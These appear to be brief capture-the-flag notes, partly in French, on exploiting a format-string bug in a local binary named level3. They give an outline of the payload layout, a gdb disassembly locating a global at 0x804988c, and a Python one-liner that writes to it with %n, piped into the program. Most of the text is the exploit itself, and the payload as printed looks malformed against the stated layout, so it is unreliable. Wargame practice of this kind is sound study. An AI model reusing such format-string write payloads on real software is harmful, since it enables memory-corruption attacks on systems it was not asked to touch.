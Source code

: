1. offset

2. buffer = addresse + valeur + %offset$n

3. %n

4. format string

m addr 0x804988c

```Shell
(gdb) disas v
[...]
 0x080484da <+54>:    mov    0x804988c,%eax
[...]

 ```

python -c 'print("A" * 64 + "%\x8c\x98\x04\x08$n")' > /tmp/input3

cat /tmp/input3 - | ./level3